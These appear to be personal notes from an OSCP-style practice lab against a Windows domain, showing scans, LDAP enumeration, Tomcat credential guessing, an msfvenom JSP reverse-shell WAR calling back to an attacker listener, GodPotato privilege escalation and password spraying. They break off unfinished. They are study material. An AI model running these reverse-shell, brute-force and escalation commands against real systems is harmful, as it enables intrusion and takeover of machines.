
All machines on same network
Nmap scan

nmap -p- -sV -sC -Pn 192.168.102.100 --open 
nmap -p- -sV -sC -Pn 192.168.102.101 --open 
nmap -p- -sV -sC -Pn 192.168.102.102 --open 

port 8080 open apache tomcat 8.5.91, tried with default usernames

hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://192.168.102.101:8080/manager/html - Unsuccessful

gobuster tomcat - unsuccessful

gobuster dir -u http://192.168.102.101:8080 -w /usr/share/seclists/Discovery/Web-Content/ApacheTomcat.fuzz.txt 

Query DC for usernames

nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=administrator,cn=users,dc=exam,dc=exam",ldap.qfilter=users,ldap.attrib=sAMAccountName' -Pn 192.168.102.100

ldap search

ldapsearch -x -b "dc=oscp,dc=exam" "*" -H ldap://192.168.102.100  | awk '/dn: / {print $2}'

tried with lisa lisa on tomcat , got the access

created msfvenom shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.49.102 LPORT=8080 -f war -o revshell_jsp.war

logged into tomcat with lisa lisa 
uploaded war file on http://192.168.102.101:8080/manager/html/list

start listener on port nc -nlvp 8080 and click on uploaded shell

got reverse connection
got local flag

privesc

checked privileges   whoami /all
SeImpersonatePrivilege Enabled, printspoofer vulnerability should work

Used GodPotato [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato "https://github.com/BeichenDream/GodPotato")

wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe

curl http://192.168.49.102/GodPotato-NET4.exe -o GodPotato-NET4.exe

download nc.exe






192.168.102.100 - entry point
	
	PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-02-28 03:20:56Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49701/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53027/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC20  ftp-data
	
		389/tcp open  ldap
| ldap-search: 
|   Context: DC=oscp,DC=exam; QFilter: users; Attributes: sAMAccountName
|     dn: CN=Guest,CN=Users,DC=oscp,DC=exam
|         sAMAccountName: Guest
|     dn: CN=lisa,CN=Users,DC=oscp,DC=exam
|         sAMAccountName: lisa
|     dn: CN=svc_sql,CN=Users,DC=oscp,DC=exam
|_        sAMAccountName: svc_sql

DC=oscp,DC=exam
CN=Administrator,CN=Users,DC=oscp,DC=exam
CN=Guest,CN=Users,DC=oscp,DC=exam
CN=krbtgt,CN=Users,DC=oscp,DC=exam
CN=Domain
CN=Domain
CN=Schema
CN=Enterprise
CN=Cert
CN=Domain
CN=Domain
CN=Domain
CN=Group
CN=RAS
CN=Allowed
CN=Denied
CN=Read-only
CN=Enterprise
CN=Cloneable
CN=Protected
CN=Key
CN=Enterprise
CN=DnsAdmins,CN=Users,DC=oscp,DC=exam
CN=DnsUpdateProxy,CN=Users,DC=oscp,DC=exam
CN=lisa,CN=Users,DC=oscp,DC=exam
CN=betty,CN=Users,DC=oscp,DC=exam
CN=svc_sql,CN=Users,DC=oscp,DC=exam


		
192.168.102.101

135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http          syn-ack ttl 127 Apache Tomcat 8.5.19
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.19
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

gobuster on 8080 with common and big no results

192.168.102.102

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.102.102:1433: 
|     Target_Name: oscp
|     NetBIOS_Domain_Name: oscp
|     NetBIOS_Computer_Name: MS02
|     DNS_Domain_Name: oscp.exam
|     DNS_Computer_Name: ms02.oscp.exam
|     DNS_Tree_Name: oscp.exam
|_    Product_Version: 10.0.17763
|_ssl-date: 2024-02-28T03:25:05+00:00; +2s from scanner time.
| ms-sql-info: 
|   192.168.102.102:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-17T19:18:13
| Not valid after:  2054-01-17T19:18:13
| MD5:   fbc5:7a53:862f:0b5b:ed91:f356:6648:a76b
| SHA-1: 4503:8be0:fcc4:b2f3:a15d:e1e2:fd61:608c:fd75:d9b2
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQbiVxxpfvuLVEZTFrKa+k7DANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwMTE3MTkxODEzWhgPMjA1NDAxMTcxOTE4MTNaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAK7NbILh
| dBwvl469Deq6UFhtChDU9AP2ARb9GEg7LGEiSnNKvYC4Bx0BsPv4aCXUGoOK/p5a
| ihfQEjl3u1xZuQf3J8z87CUaF2rZWa78G9YrEVR0DjDyN6i7HL8H6ByCpxL1m70c
| UZNq0LkFZSyGAZajQKL8y+po+kmAu19Ly7e1olV2JeVUm446gQBENrj92Fsi0Uio
| shyKyZ6CSNsRPZL7Fuvfh7H5QgeHwEEcrsjRM0wh+RR/pO5eGB/v655UFy5AZld6
| OA8UF/xfrXtOSinkoZurPd4XYuWdvOL47bxIOR38w0vpR8HQoVdhdkzl6NddTmpd
| KmcyIyz1yevxs+kCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAFpvex/WwDYAm9t4t
| O8MZmS9BgdkTiH5auqyV1ZL6jFsif4Hi+GxXWVfxpbJKTYcPTo90bxugN3Pa90Ad
| H8H7f/kKjCEV/Aua02Y/7iBx5JiDe2U/zKNwbtzXVZTlPgEMzk41usCO/mP+NvXe
| PoZK4VeB4r4za3hdz/yWlkgGoJBgo8tsqvWROH54DYfth+TfHD+B9pXzR/s4K+2U
| Dh6EvHIuiUpuxnS7WEVHGLyGTHRibUpJSeFqKVfpc3PXKiVkJnuf1WtFwhfj94k2
| 9kfrd2s+txaXxJvBctz7th/DtNqpdeg+pPH410qDF7S2lZ+6BVvrorKz07sHd08I
| G78nYA==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

got password of lisa  -- domain user
got all users with get ADuser
sprayed crackmapexec smb for all users
sprayed getspn and getnpuser for all

No success

MSSQL server??

